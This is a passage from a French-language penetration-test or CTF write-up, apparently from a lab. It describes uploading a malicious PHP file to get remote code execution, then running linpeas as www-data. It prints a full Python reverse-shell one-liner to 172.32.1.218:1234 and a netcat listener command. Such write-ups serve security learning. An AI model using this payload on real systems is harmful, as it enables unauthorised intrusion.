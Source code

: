 
Après avoir compris que le fichier était horodaté nous avons tenter d'acceder de nouveau a notre fichier : 

![Alt text](img/AccèesInfo.php.png "Vérification interprétation")

Cette fois ci le phpinfo est bien trouvé et executer par le serveur.

##### Exploitation des Uploads de Fichier

Après avoir effectué cette vérification, nous pouvons injecter un fichier `php` malveillant qui nous permet d'envoyer des commandes au serveur.

Nous avons commencé par vérifier la présence d'utilitaires me permettant d'avoir un reverse shell. Nous avons aperçu grâce à la commande `which` que l'utilitaire python3 était sur le serveur.

### RCE

Nous avons alors utilisé le payload suivant pour initier notre reverse shell.

`export RHOST="172.32.1.218";export RPORT=1234;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")`

et la commande suivante pour créer un serveur d'ecoute sur la machine nommé `ip-172-32-1-218`: `nc -lvnp 1234`

![Alt text](img/RCE.png "RCE")

##### Récupération d'une Connexion Utilisateur

Une fois le reverse shell obtenus en tant que www-data, nous avons lancé le script `linpeas` qui permet de faire ressortir les potentielles failles d'escalade de privilèges.
